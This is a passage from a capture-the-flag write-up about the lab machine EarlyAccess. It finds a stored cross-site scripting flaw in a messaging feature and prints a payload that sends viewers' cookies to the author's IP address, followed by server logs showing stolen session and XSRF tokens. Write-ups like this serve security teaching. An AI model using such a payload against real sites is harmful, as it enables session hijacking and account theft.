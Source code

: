 I’ll try sending some messages, but nothing seems to trigger any second order SQL injections (like in [Nightmare](/2018/07/07/second-order-sql-injection-on-htb-nightmare.html)):

![image-20210816175341760](https://0xdfimages.gitlab.io/img/image-20210816175341760.png)

Next I’ll check HTML elements. It doesn’t work in the username display at the top of the page:

![image-20210816175652748](https://0xdfimages.gitlab.io/img/image-20210816175652748.png)

But when I send a message, it does:

![image-20210816175705102](https://0xdfimages.gitlab.io/img/image-20210816175705102.png)

This means that the site is likely vulnerable to a cross-site scripting (XSS) attack if someone is looking at the messages.

### Steal Cookies

Typically I like to use XSS payloads of the format `<script src="[url of my box]"></script>` for XSS testing, but that will require setting up an HTTPS server here, as the page is served over HTTPS. I’ll start with a simple `document.location` test by updating my username to:

```

0xdf<script>document.location="http://10.10.14.6/"+document.cookie;</script>

```

If that is processed as HTML, then anyone viewing it will send their cookie to my server in the URL. I’ll start a Python webserver to listen for requests.

On sending a message, when I click on it, I’m immediately redirected to a 404:

![image-20210816180202436](https://0xdfimages.gitlab.io/img/image-20210816180202436.png)

The logs from the Python webserver show the hit, which containers the request contains my cookies:

```
10.10.14.6 - - [05/Sep/2021 10:04:30] "GET /earlyaccess_session=eyJpdiI6IldPUC93RS82eFN0QU9uUnI1cW8zdlE9PSIsInZhbHVlIjoiVGlBd25kMU9HZWR2U3ZuRTVTM283QW5WRzhsbS9DbjNLcVZxbkt1ZkVCM2FXb1o4K0VaZ1kzd3NpTVBQK1FVeG8wbTdJRFYwWko3Tkw4WDVmakRTRzBuQ1FRVlBPdDVqaDViZlB5MENUWmFjWUgxbEdFTmV0MElXUnY3VWVycDkiLCJtYWMiOiJjOGE4ZjJmNzc5OThjOTJjNjAyZWI1OTZjZmMxNTlkYWQ4Mzg3OWUwZWE1YmVkZWYzNWY4ZmYxMDgwODQ3NjdiIn0%3D;%20XSRF-TOKEN=eyJpdiI6IkVwTzFYSHhsSEdkU1RmcnphdTN6Q3c9PSIsInZhbHVlIjoiNE54ZmcxMk0zZWEzOSs3MW92d1I2ZGtJS3NZQ1B0eDE0T0RHaGdTa24rVVpoUTJQeFU5Z3hIUHdQckpnMEFrRXJHNHpERk8ydGNWTi9EdGxUTmZFRDlBOU1yV2t1Y294MWZleGQrcVlORE9mSEZHaHJXY1hhYzNyeW9aaERxRGYiLCJtYWMiOiIwZWY2OGRmODdlZDYxZGRmOGY1MDEwMzUwYmNkNDU0ZWY5NDBkNWYxZjA0MTMyYjE1N2M5MDhmZmMzYmQzOGNjIn0%3D HTTP/1.1" 404

```

Less than a minute later, there’s a request from EarlyAccess with a cookie:

```
10.10.11.110 - - [05/Sep/2021 10:04:42] "GET /XSRF-TOKEN=eyJpdiI6Inowei9ZYlV3SDI2QlJGeHRoZTBsT1E9PSIsInZhbHVlIjoiQ0tRMDhFMjM2SE5yQzRzKzZLL2tUbGxQNXZ5ZnlMMkpRV2pqWTY2ZVY0Y21JTzN0aG40MS9xNWNCMU1rYk5ERnBzVUNpY0tqa1craW8yZkw3MnlzMHQyS1Y4cEFYZUMxZ3dwek5rSHRTY05jaVZVR2hsNDNjQk05eHV3RlhnQTIiLCJtYWMiOiJiMDAyOTBkODNlOTRhN2M4NDAwN2ViNGUyNWQzMjkzYTJiYjVmYjQ4MTYxNDNhZmExNDcwYzRkZTFmZjExMzRjIn0%3D;%20earlyaccess_session=eyJpdiI6IlpZV0VZUnU4V09HTUdONHEzQ3ZBMEE9PSIsInZhbHVlIjoiZVVqaDduTXcwcWJMdC9PUGl4U1QzcHZTVkYzdkJ6ZVM2SlJWKzZrNGhxelBGLzBZTjhic0djaGJqTXM3NWNGeGtlR05CSXZsSkdCb3oyZGNORWpYM3BHM2xvUGhKWmJFOFZ6ZVVIK2hlMHNIVU1YOWxEaXhJaUJMY3ZKYTJUNFAiLCJtYWMiOiJhMmU3YmYyYzhmNjk3YmFhZTc4ZjExNWIyMThlYTU1MzZhYmMzMGIwOWM2Mzc3OGNkM2IyODU0ZmRiNzBiM2FkIn0%3D HTTP/1.1" 404 -

```

